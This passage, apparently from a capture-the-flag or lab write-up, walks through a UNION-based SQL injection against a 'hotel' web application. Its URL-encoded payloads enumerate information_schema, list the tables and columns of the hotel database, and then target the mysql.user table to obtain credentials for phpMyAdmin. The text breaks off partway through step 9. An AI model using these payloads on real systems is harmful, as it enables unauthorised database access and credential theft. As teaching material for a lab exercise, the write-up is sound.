 	```
	Database:
	hotel
	information_schema
	mysql
	performance_schema
	```
5. Determine tables in `hotel` database
	```
	# Payload
	-1+UNION+SELECT+1,group_concat("table:",table_name,"\n"),3,4,5,6,7+FROM+information_schema.tables+WHERE+table_schema='hotel'
	```
	![]({{ page.img_path }}Pasted%20image%2020220915175201.png)
	```
	Database: hotel
	[1 Tables]
	room
	```
6. Determine columns in `room` table from `hotel` database
	```
	# Payload
	-1+UNION+SELECT+1,group_concat("column:",column_name,"\n"),3,4,5,6,7+FROM+information_schema.columns+WHERE+table_name='room'
	```
	![]({{ page.img_path }}Pasted%20image%2020220915015237.png)
	```
	Database: hotel
	Table: room
	[7 Columns]
	cod
	name
	price
	descrip
	star
	image
	mini
	```
	- Not useful
7. Lets try to obtain a DBMS user to login to `phpmyadmin`
8. Determine tables in `mysql` database
	```
	# Payload
	-1+UNION+SELECT+1,group_concat("table:",table_name,"\n"),3,4,5,6,7+FROM+information_schema.tables+WHERE+table_schema='mysql' 
	```
	![]({{ page.img_path }}Pasted%20image%2020220915015659.png)
	```
	Database: mysql
	[1 Useful Table]
	user
	```
9. Determine columns in `user` table from `mysql` database
	```
	# Payload
